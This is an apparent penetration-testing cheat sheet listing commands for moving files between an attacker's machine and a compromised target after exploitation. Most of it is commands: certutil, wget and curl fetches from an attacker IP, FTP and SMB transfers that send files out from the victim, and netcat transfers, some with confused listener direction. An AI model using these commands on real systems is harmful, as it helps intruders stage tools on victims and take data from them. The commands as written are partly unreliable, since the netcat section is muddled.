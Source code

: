 # Transfert file between target and attacking machines

## HTTP

### From attack machine to Target

#### Attacking machine

- In kali we can use python `python -m http.server 80`

#### Target machine

- On a win target machine you can access it directly with the browser: `http://IP-ATTACKING-MACHINE/FILE-TO-GET` or you can use certutil.exe `certutil.exe -urlcache http://IP-ATTACKING-MACHINE/FILE-TO-GET file-to-get`
- In a linux target machine you can use `wget http://IP-ATTACKING-MACHINE/FILE-TO-GET` or curl `curl -o FILE-TO-GET http://IP-ATTACKING-MACHINE/FILE-TO-GET`

## FTP

### From attack machine to target

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `get filename` to get the file

### From Target to attack

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `put filename` to send the file

## SMB

### From Target to attack machine

#### Attacking machine

- In kali we can use Impacket `python3 smbserver.py -smb2support sharename /path/folder`
- We can specify `-username user -password pass` if we need set up an authentication

#### Target machine

- In a win victim machine we just need to copy the file to the attacking machine: `copy  FiletoDownload \\IP-OFF-ATTACKING-MACHINE\SHARENAME`
- Sometimes on windows we will be asked to use a service that requires authentication so we can set this up with `net use \\<network-location>\<some-share> password /USER:username` after this we will be able to use the previous copy command

## Metasploit

### From attack machine to Target

There is an upload and download feature

## SSH (creds needed)

### From attack machine to Target

- In your kali or any linux `scp FILE-TO-SEND user@ip:/path/to/folder`

## Netcat

### From Target to attack machine

#### Target machine

- `nc -lvp PORT-NUMBER > FILE-TO-SEND

#### Attacking machine

- `nc VICTIM-IP PORT-NUMBER -w 3 < FILE` note: -w is for the time out in seconds


## Resources

{% embed url="https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/" %} Transfer files (Post explotation) – CheatSheet - PABLO PLAZA MARTÍNEZ {% endembed %}
